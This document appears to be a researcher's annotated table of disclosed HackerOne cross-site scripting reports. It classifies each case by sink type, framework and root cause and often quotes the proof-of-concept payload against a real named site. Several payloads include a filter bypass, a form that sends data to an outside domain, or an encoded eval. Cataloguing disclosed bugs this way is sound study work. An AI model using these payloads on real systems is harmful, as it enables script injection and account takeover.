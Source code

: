 |Title|URL|Severity|Sink Type|Framework|(if sink is not HTML) what needs the sink?|Personally Interesting :)|Memo|Program|Payload|
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | 
|oem.acronis.com Reflected Cross Site Scripting|https://hackerone.com/reports/2038943|Med|HTML DOM|-|-|-|it's test page. so maybe no validation. framework unknown|Acronis|`https://oem.acronis.com/test/testenv.html/%3C/pre%3E%3Cisindex%20type%3Dimage%20src%3D1%20onerror%3Dalert%289166%29%3E%3Cscript%3Ealert(origin)%3C/script%3E`|
|DOM Based Reflected Cross Site Scripting|https://hackerone.com/reports/2321874|High|lib vuln|Swagger|-|x|Swagger with vulnerable version DOMPurify. mXSS.|-|"`<form><math><mtext></form><form><mglyph><svg><mtext><textarea><path id=""</textarea><img onerror=alert('textarea') src=1>""></form>`"|
|[ CVE-2018-1000129 ] RXSS At `https://` via the URI|https://hackerone.com/reports/2778412|Med|HTML DOM|-|-|-|svg. framework unknown|DoD|`https://█████%3Csvg%20onload=alert%28'1337'%29%3E?mimeType=text/html`|
|XSS Reflected|https://hackerone.com/reports/2741110|Med|HTML Attr escape|-|maybe src of image or video|x|double decode of HTML entity and URL encode. framework unknown.|-|`https://www.██████/tags/image/sizzle-reel?&view=K0X%22%20AutoFocus%20%2526%252362%20OnFocus%0c%3dprompt%601%60%20kaos%3d%22uwps2&sort=date`|
|Reflected XSS on formaction parameter|https://hackerone.com/reports/2089895|Med|unknown|-|-|-|detailes unknown.|-|-|
|Potential XSS Vulnerability in Acronis Login Callback URL|https://hackerone.com/reports/2611305|High|JS URL|-|redirect|x|framework unknown.|-|`https://learn.acronis.com/portal/login-callback?redirectUrl=javascript:alert(document.domain)`|
|Potential XSS in redirect_url Parameter|https://hackerone.com/reports/2653342|Med|JS URL|-|redirect|x|framework unknown.|-|`https://learn.acronis.com/portal/licensing-check?redirect_url=javascript:alert(document.domain)`|
|Stored XSS on trix editor version 2.1.1|https://hackerone.com/reports/2521419|High|lib vuln|Trix|-|x|WYSIWYG. vuln version of lib.|-|crafted HTML|
|Blind XSS on admin.acronis.com via delete account form on account.acronis.com|https://hackerone.com/reports/666040|High|unknown|-|-|-|unknown.|-|-|
|Reflected - XSS|https://hackerone.com/reports/1779447|High|HTML DOM|-|-|-|self-xss?|mtn|`<h1 onauxclick=confirm(document.domain)>RIGHT CLICK HERE`|
|Reflected XSS in https://nin.mtn.ng/nin/success?message=lol&nin=<VULNERABLE>|https://hackerone.com/reports/2039384|Critical|HTML DOM|-|-|-|framework unknown.|mtn|`https://nin.mtn.ng/nin/success?message=lol&nin=<script>alert(1)</script>`|
|DOM XSS in tiktok.com/login via the redirect_url parameter|https://hackerone.com/reports/2583874|High|JS URL|-|redirect|-|detail unknown.|-|-|
|"Stored Xss On ""https://www.question.com/"""|https://hackerone.com/reports/1901706|High|HTML DOM|-|-|-|self-xss?|Drugs.com|`<iframe onload=alert(document.domail)>`|
|cross site scripting reflected|https://hackerone.com/reports/1496897|Med|unknown|-|-|-|unknown.|-|`-alert(1)-`|
|Stored XSS in reclamos|https://hackerone.com/reports/1675516|High|HTML DOM|-|-|x|wysiwyg. sanitize confusion|Mercadolibre|`<p><p><p><p><p><p><p><p><audio/src/onerror=alert(document.domain)>.`|
|"Reflected cross site scripting (XSS) attacks Reflected XSS attacks"|https://hackerone.com/reports/1799197|Med|HTML DOM|-|-|-|escape comment out xss|mtn|`https://102.176.160.119:10443/remote/error?errmsg=--%3E%3Cscript%3Ealert(document.domain)%3C/script%3E`|
|XSS found for https://█████████|https://hackerone.com/reports/2670521|Med|JS Others|-|seems to directly input search query to JS|x|-|-|`'};alert('XSS');var x={y:'`|
|XSS on ███████|https://hackerone.com/reports/2615670|Med|unknown|-|-|-|unknown.|-|`https://█████████/thredds/dap4/%221%3CScRiPt%3Ealert%289218%29%3C%2FScRiPt%3E`|
|MetaMask Browser (on Android) does not enforce Content-Security-Policy header|https://hackerone.com/reports/1941767|Med|unknown|-|-|-|browser vuln on CSP. not XSS. just related. but interesting.|-|-|
|Cross-site Scripting (XSS) - Reflected on https://api.mtn.sd/carbon/admin/login.jsp via `msgId` parameter - CVE-2020-17453|https://hackerone.com/reports/1158823|Med|JS Others|-|seems to directly embedded JS|x|-|-|`https://api.mtn.sd/carbon/admin/login.jsp?msgId=%27%3Balert(%27Renzi%27)%2F%2F`|
|Cross-site Scripting (XSS) - Reflected on http://callertunez.mtn.com.gh/wap/noauth/sharedetail.ftl via `callback` parameter|https://hackerone.com/reports/1147176|Med|HTML Attr escape|Freemaker Template Language|callback???|-|FTL has default escape way: `#excape`.|-|"`http://callertunez.mtn.com.gh/wap/noauth/sharedetail.ftl?callback="">><img%20src=x%20onerror=confirm(""Renzi"")>&type=`"|
|RXSS in ███ via S parameter|https://hackerone.com/reports/2307913|Med|unknown|-|-|-|detail unknown.|-|-|
|Cross-site Scripting (XSS) - Reflected on http://h1b4e.n2.ips.mtn.co.ug:8080 via Nginx-module|https://hackerone.com/reports/1159362|Med|HTML DOM|-|-|-|framework unknown.|mtn|`http://h1b4e.n2.ips.mtn.co.ug:8080/status%3E%3Cscript%3Ealert(31337)%3C%2Fscript%3E`|
|Reflected Cross Site Scripting Cisco ASA on myvpn.mtncameroon.net CVE-2020-3580|https://hackerone.com/reports/1247833|Med|lib vuln|Cisco ASA|-|-|attr escape.|-|"`SAMLResponse=""><svg/onload=alert('Renzi')>`"|
|Cross-site Scripting (XSS) - Reflected|https://hackerone.com/reports/1211148|Med|HTML DOM|-|-|-|framework unknown.|Drugs.com|`https://www.drugs.com/imprints.php?imprint=_%22%3E%3C%78%20%69%64%3D%22%78%22%20%76%35%3D%22%29%22%20%76%31%3D%22%3C%22%20%76%32%3D%22%53%43%52%49%50%54%3E%22%20%76%33%3D%22%61%6C%65%22%20%76%34%3D%22%72%74%28%31%22%20%76%36%3D%22%3C%2F%22%20%76%37%3D%22%53%43%52%49%50%54%3E%22%20%6F%6E%70%6F%69%6E%74%65%72%6F%76%65%72%3D%22%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%60%24%7B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%31%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%32%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%33%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%34%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%35%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%36%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%37%2E%76%61%6C%75%65%7D%60%22%3E&color=8&shape=24`|
|Cross Site Scripting|https://hackerone.com/reports/2587844|Med|HTML attr escape|-|unknown|-|framework unknown.|-|`https://www.██████.███████/852585B6003EBA25/Login.html?open&ErrMsg=invalidlogin%22%20test=%22X%22%20onclick=%22confirm(%27H4CKED%20BY%20PRAKHAR0X01%27)`|
|Blind Stored XSS on the internal host - █████████████|https://hackerone.com/reports/923912|High|unknown|-|-|-|detail unknown.|-|-|
|XSS via /api/v1/chat.postMessage|https://hackerone.com/reports/219957|Critical|HTML DOM|-|-|-|framework unknown.|Rocket.chat|`channel=<CHANNEL_NAME>&attachments[0][image_url]=/assets/logo&attachments[0][fields][0][title]=&attachments[0][fields][0][value]=<img src=/assets/logo width=1 height=1 onload=alert('XSS4') />You're Pwned!`|
|XSS in various MessageTypes|https://hackerone.com/reports/1379400|High|HTML Attr escape|-|a tag href|x|2 types of sink. message related.|-|"`snippetId: ""\""><img src=x onerror=alert(1) style=\""display: none;\"" x=\""""`"|
|XSS in various MessageTypes|https://hackerone.com/reports/1379400|High|HTML DOM|-|-|x|2 types of sink. message related.|Rocket.chat|"comment: ""<img src=x onerror=alert(1) />"""|
|Open Akamai ARL XSS on http://master-config-████████|https://hackerone.com/reports/1315907|Med|HTML DOM|-|-|-|framework unknown.|DoD|`http://master-config-████████/7/0/33/1d/www.citysearch.com/search?what=x&where=place%22%3E%3Csvg+onload=confirm(document.domain)%3E`|
|Open Akamai ARL XSS on http://media.████████|https://hackerone.com/reports/1315898|Med|HTML Attr escape|-|unknown|-|framework unknown.|-|`http://media.██████/7/0/33/1d/www.citysearch.com/search?what=x&where=place%22%3E%3Csvg+onload=confirm(document.domain)%3E`|
|Self XSS|https://hackerone.com/reports/2521186|Med|HTML DOM|-|-|-|framework unknown. self-xss.|melbadry9|`<script>alert(document.cookie)</script>`|
|XSS in IBM InfoCenter|https://hackerone.com/reports/2343548|Med|unknown|-|-|-|detail unknown.|-|-|
|Multiple XSS and open HTTP redirection|https://hackerone.com/reports/2372332|High|unknown|-|-|-|detail unknown.|-|-|
|Reflected XSS of media.indrive.com|https://hackerone.com/reports/2503113|Med|unknown|-|-|-|detail unknown.|-|-|
|[CVE-2024-32464] ActionText ContentAttachment’s can Contain Unsanitized HTML|https://hackerone.com/reports/2542806|Med|unknown|-|-|-|detail unknown even on github...?|-|-|
|Reflected xss on ████████|https://hackerone.com/reports/2389897|Med|unknown|-|-|-|detail unknown|-|-|
|"[Meetup][World ID][OIDC] Insufficient Filtering of ""state"" Parameter in Response Mode form_post leads to XSS and ATO"|https://hackerone.com/reports/2515808|Critical|HTML Attr escape|-|"OAuth2 form post response mode" necessarily needs url set in action attr in form tag!|x|WAF and CSP bypass. Strictly speaking, not XSS but HTML form Injection. very interesting. framework unknown. https://openid.net/specs/oauth-v2-form-post-response-mode-1_0.html|-|`https://id.worldcoin.org/login?client_id=app_8ad4dd04557f8b768243904bf76d8db0&response_type=token&redirect_uri=https://lhq.at&scope=openid&state=""><input+type=submit+value=Click!+formaction=//lauritz-holtmann.de>&nonce=test6&ready=test&response_mode=form_post`|
|[HTAF4-213] [Pre-submission] XSS via arbitrary cookie name at the https://www2.██████/nssi/core/dot_stu_reg/Registration.aspx|https://hackerone.com/reports/728001|Med|JS URL|-|pop up frame (maybe)|x|asp?|-|`https://███████.███████.mil/kc/main/pop_up_frm.asp?loc=javascript:top[%27ev%27+%27al%27](atob(%27ZG9jdW1lbnQuY29va2llPSd6eno8c2NyaXB0PmFsZXJ0KGRvY3VtZW50LmRvbWFpbik8L3NjcmlwdD49enp6O3BhdGg9Lztkb21haW49LmFmLm1pbCc7IHdpbmRvdy50b3AubG9jYXRpb24uaHJlZiA9ICdodHRwczovL3d3dzIucGV0ZXJzb24uYWYubWlsL25zc2kvY29yZS9kb3Rfc3R1X3JlZy9SZWdpc3RyYXRpb24uYXNweCc7%27))`|
|"Stored XSS filter bypass on discussion forum. ""URL"" tag."|https://hackerone.com/reports/1096061|Med|unknown|-|-|-|detail unknown|-|-|
|Stored-XSS injected in Wiki page via Banzai pipeline|https://hackerone.com/reports/2257080|High|HTML DOM|original sanitizer. but bypassed|-|x|sanitize bypass with mXSS and complicated chain.|gitlab|crafted markdown|
|Lynxview JS interfaces Takeover via deeplink traversal|https://hackerone.com/reports/2417516|High|unknown|-|-|-|detail unknown|-|-|
|XSS in Aspera documentation website|https://hackerone.com/reports/2308491|Med|unknown|-|-|-|detail unknown|-|-|
|Reflected XSS via Keycloak on ███ [CVE-2021-20323]|https://hackerone.com/reports/2221104|Med|HTML DOM|-|-|x| id was not escaped but rendered. seems mistake for pollution possibility (taint), or responsibility vanish between BE and FE.|DoD|"`{""<img onerror=confirm('xss_poc_unexpectedbufferc0n') src/>"":1}`"|
|reflected xss [CVE-2020-3580]|https://hackerone.com/reports/2479161|Med|unknown|-|-|-|detail unknown|-|-|
|Reflected Cross-site Scripting via search query on ██████|https://hackerone.com/reports/2434904|Med|HTML DOM|-|-|-|framework unknown|DoD|`</h6><image/src/onerror=alert(document.cookie)>`|
|Reflected XSS on error message on Login Page|https://hackerone.com/reports/2417864|Med|HTML DOM|-|-|-|framework unknown|DoD|"`https://███████/users/login?error=<img src='x' onerror=""alert(document.domain)"">`"|
|Reflected XSS via Moodle on ███ [CVE-2022-35653]|https://hackerone.com/reports/2444032|Med|HTML Attr escape|-|unknown|-|framework unknown|-|"`xxx""><img/src%3d'x'onerror%3dalert('document_domain')>=1`"|
|RXSS in hidden parameter|https://hackerone.com/reports/2090964|Med|unknown|-|-|-|detail unknown|-|-|
|Stored XSS in messages|https://hackerone.com/reports/1669764|Med|HTML DOM|-|-|-|framework unknown|Livestream|`https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt`|
|Self XSS in Tag name pattern field /<username>/<reponame>/settings/tag_protection/new|https://hackerone.com/reports/2246576|Med|HTML DOM|-|-|-|detail unknown. but it says innerHTML|Github|-|
|Reflected XSS on Pangle Endpoint|https://hackerone.com/reports/2352968|High|JS URL|-|-|-|detail unknown. but it says redirect|-|-|
|XSS in GOCD Analytics Plugin|https://hackerone.com/reports/2433634|Med|HTML DOM|jquery|-|x|jquery no escape html. text() should be used.|GoCD|`?msg=%3Csvg%2Fonload%3Dalert%28%22XSS%22%29%20%3E`|
|Xss - ███|https://hackerone.com/reports/2353185|Med|unknown|-|-|-|framework unknown|-|`1<ScRiPt>alert(9639)</ScRiPt>`|
|Xss Parameter: /<s>/[*]/<s>.css ████████|https://hackerone.com/reports/2353131|Med|HTML DOM|-|-|-|framework unknown|DoD|"`/login.php/styles<isindex%20type=image%20src=1%20onerror=chor4o(9939)>/""><BODY%20ONLOAD=alert(0x000123)>/local.css`"|
|Parâmetro XSS: Nome de usuário - █████████|https://hackerone.com/reports/2356104|Med|HTML Attr escape|-|unknown|-|framework unknown|-|"`Username=ghovjnjv'""()%26%25<zzz><ScRiPt>alert(233)</ScRiPt>`"|
|Reflective Cross Site Scripting (XSS) on ███████/Pages|https://hackerone.com/reports/1794757|Med|lib vuln|Microsoft SharePoint Server|-|-|Microsoft SharePoint Server vuln|-|`https://█████████/Pages/default.aspx?FollowSite=0&SiteName=%27-confirm(%27XSSALERT%27)-%27`|
|XSS Refelected on jazz.net|https://hackerone.com/reports/2338285|Med|unknown|-|-|-|detail unknown|-|-|
|DOM XSS on multiple Automattic domains through postMessages|https://hackerone.com/reports/2371019|High|HTML Attr escape|-|unknown|x|2 XSS chain. XSS.|-|`https://widgets.wp.com/sharing-buttons-preview/?custom[0][icon]=iconurl&custom[0][name]=%22%3E%3Cimg%20src%20onerror=alert()%3E` `-`|
|DOM XSS on multiple Automattic domains through postMessages|https://hackerone.com/reports/2371019|High|HTML Attr escape|-|img src attr|x|2 XSS chain. postMessage vuln. kind of taint mistake.|-|`https://widgets.wp.com/sharing-buttons-preview/?custom[0][icon]=iconurl&custom[0][name]=%22%3E%3Cimg%20src%20onerror=alert()%3E` `-`|
|CSP bypass on PortSwigger.net using Google script resources|https://hackerone.com/reports/2279346|Med|unknown|-|-|-|CSP bypass. not XSS, but nice one.|-|-|
|Client Side Template Injection to Stored XSS in Image Collection|https://hackerone.com/reports/2234564|High|unknown|-|-|-|detail unknown.|-|-|
|Blind Stored XSS in shopify internal Parquet Viewer|https://hackerone.com/reports/1103298|Med|unknown|-|-|-|detail unknown.|-|-|
|XSS in Subdomain of DuckDuckGo|https://hackerone.com/reports/395734|Med|HTML DOM|-|-|-|framework unknown. with CSP bypass.|Picsart|`https://proxy.duckduckgo.com/iur/?f=1&image_host=http://attackerdomain.com/xsspage`|
|XSS on terra-6.indriverapp.com|https://hackerone.com/reports/1969696|Med|unknown|-|-|-|detail unknown.|-|-|
|Stored XSS on LinkedIn App via iframe tag in Article|https://hackerone.com/reports/2212950|Critical|unknown|-|-|-|detail unknown.|-|-|
|Reflected XSS On [https://www-useast1a.tiktok.com/ug/incentive/share/hd]|https://hackerone.com/reports/2178061|Med|unknown|-|-|-|detail unknown.|-|-|
|RXSS on TikTok endpoints|https://hackerone.com/reports/2280863|Med|unknown|-|-|-|detail unknown.|-|-|
|RXSS via region parameter|https://hackerone.com/reports/2251191|Med|unknown|-|-|-|detail unknown.|-|-|
